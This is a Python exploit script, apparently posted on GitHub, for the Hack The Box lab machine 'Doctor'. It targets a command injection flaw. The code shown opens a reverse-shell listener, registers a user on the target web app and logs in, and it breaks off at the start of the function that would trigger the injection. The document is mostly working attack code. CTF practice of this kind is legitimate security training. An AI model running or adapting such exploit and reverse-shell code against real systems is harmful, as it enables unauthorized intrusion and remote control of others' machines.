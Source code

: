 ```py
#!/usr/bin/python3
# Date: 2021-09-03
# Exploit Author: 0x4rt3mis
# Hack The Box - Doctor
# Command Injection Vulnerability

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First we need to create a login on the application
def createLogin(rhost):
	# First get the cookies
	url = "http://%s:80/home" %rhost
	r.get(url,proxies=proxies)
	print("[+] Cookies GOT!! [+]")
	# Now create a new user
	url = "http://%s:80/register" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"username": "0x4rt3mis", "email": "0x4rt3mis@email.com", "password": "teste", "confirm_password": "teste", "submit": "Sign Up"}
	r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
	print("[+] User 0x4rt3mis@email.com created!!!!! [+]")
	
# After create the user, we need to login on the application
def Login(rhost):
	# Now, let's log in the application
	url = "http://doctors.htb:80/login?next=%2Fpost%2Fnew"
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"email": "0x4rt3mis@email.com", "password": "teste", "submit": "Login"}
	login = r.post(url, headers=headers, data=data, cookies=r.cookies, proxies=proxies)
	if "Doctor Secure Messaging" in login.text:
		print("[+] User loged in! [+]")
	else:
		print("[+] User not loged in, see burp! [+]")

# Get the reverse shell with the command injection vulnerability
def revShellCmdInjection(rhost,lhost,lport):
	# Now let's trigger it
	print("[+] Now, let's trigger it [+]")
	url = "http://%s:80/post/new" %rhost
```